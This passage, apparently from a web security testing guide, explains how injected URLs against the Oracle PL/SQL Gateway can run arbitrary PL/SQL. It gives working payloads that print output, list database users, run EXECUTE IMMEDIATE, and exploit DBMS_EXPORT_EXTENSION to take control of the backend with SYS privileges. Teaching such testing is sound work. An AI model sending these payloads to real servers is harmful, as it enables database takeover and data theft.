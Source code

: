 ```
    ..
```

Note the presence of FOO in the attacker’s query string. Attackers can abuse this to run arbitrary SQL. First, they need to close the brackets:

 ```
 http://server.example.com/pls/dad/orasso.home?);--=BAR
 ```


This results in the following PL/SQL being executed:
```
 ..
 orasso.home();--=>:);--);
 ..
```

Note that everything after the double minus (--) is treated as a comment. This request will cause an internal server error because one of the bind variables is no longer used, so the attacker needs to add it back. As it happens, it’s this bind variable that is the key to running arbitrary PL/SQL. For the moment, they can just use HTP.PRINT to print BAR, and add the needed bind variable as :1:

 ```
 http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR
 ```


This should return a 200 with the word “BAR” in the HTML. What’s happening here is that everything after the equals sign - BAR in this case - is the data inserted into the bind variable. Using the same technique it’s possible to also gain access to owa_util.cellsprint again:

 ```
 http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS
 ```


To execute arbitrary SQL, including DML and DDL statements, the attacker inserts an execute immediate :1:

 ```
 http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual
 ```


Note that the output won’t be displayed. This can be leveraged to exploit any PL/SQL injection bugs owned by SYS, thus enabling an attacker to gain complete control of the backend database server. For example, the following URL takes advantage of the SQL injection flaws in DBMS_EXPORT_EXTENSION (see http://secunia.com/advisories/19860)

 ```
 http://www.example.com/pls/dad/orasso.home?);
 execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20
 BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES
 ('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1);
 EXECUTE%20IMMEDIATE%20*CREATE%20OR%20REPLACE%20
 PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL*;
 END;--','SYS',1,'VER',0);END;
 ```
